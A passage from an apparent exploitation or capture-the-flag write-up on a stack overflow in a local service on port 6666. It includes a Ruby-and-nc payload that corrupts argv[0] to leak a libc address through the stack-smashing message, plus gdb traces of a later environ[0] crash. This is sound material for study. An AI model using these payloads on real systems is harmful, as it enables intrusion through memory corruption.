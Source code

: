 This crash was fairly interesting as it was trying to take the length of a string specified by a pointer under our control. It turns out that we corrupted the <i>argv[0]</i> of the program. We tried pointing it to the Global Offset Table (GOT) entry for the <i>read</i> function from <i>libc</i> and witnessed the output from Figure 10.
</p>
<pre>
$ ( sleep 2 ; ruby -e 'str = "A" * (1024+256+32); str &lt;&lt; [0x605270,0].pack("V*"); 
    puts [str.length].pack("V") + str'; cat ) | nc 127.1 6666 | hexdump -vC
[...]
00000060  2a 20 73 74 61 63 6b 20  73 6d 61 73 68 69 6e 67  |* stack smashing|
00000070  20 64 65 74 65 63 74 65  64 20 2a 2a 2a 3a 20 d0  | detected ***: .|
00000080  df a2 db 74 7f 20 74 65  72 6d 69 6e 61 74 65 64  |...t. terminated|
[...]
</pre>
<p>
Figure 10. The address of <i>read</i> in <i>libc</i> leaked
</p>
<br />
<p>
As you can see from the output, we successfully leaked the value back to ourselves (in this case it was 0x7f74dba2dfd0). After printing this value out, the program crashed in the unwinding code again. We determined this context to be the same call stack as before, so we continued on.
</p>

<h2>Crash 3 - 1332 bytes</h2>
<p>
When passing only a few more bytes, we got a different crash. This time we crashed in the <i>getenv</i> function as seen in Figure 11.
</p>
<pre>
Program received signal SIGSEGV, Segmentation fault.
__GI_getenv (name=0x7f0e4b4b7f0c "BC_FATAL_STDERR_") at getenv.c:90
90      getenv.c: No such file or directory.
(gdb) x/i $pc
=> 0x7f0e4b377f5c <__GI_getenv+156>:    cmp    0x0(%rbp),%r12w
(gdb) i r rbp
rbp            0x7fff41414141   0x7fff41414141
(gdb) back 5
#0  __GI_getenv (name=0x7f6c82bb1f0c "BC_FATAL_STDERR_") at getenv.c:90
#1  0x00007f6c82aab0da in __libc_message (do_abort=2, fmt=0x7f6c82bb357f "*** %s ***: %s terminated\n") 
at ../sysdeps/unix/sysv/linux/libc_fatal.c:69
#2  0x00007f6c82b41f47 in __GI___fortify_fail (msg=0x7f6c82bb3567 "stack smashing detected") 
at fortify_fail.c:32
#3  0x00007f6c82b41f10 in __stack_chk_fail () at stack_chk_fail.c:29
#4  0x000000000040134e in ?? ()
</pre>
<p>
Figure 11. Crash context with 308 bytes overwritten
</p>
<br />
<p>
Like before, we crashed in code dealing with printing the stack corruption protection failure. This time we corrupted <i>environ[0]</i> . Controlling this means that we could influence several environment related settings. However, we determined none of them would get us closer to a shell. To avoid crashing here, we simply set the pointer value to NULL. After doing so, the crash in the unwinding code reappeared again and we continued experimenting with longer lengths.
</p>
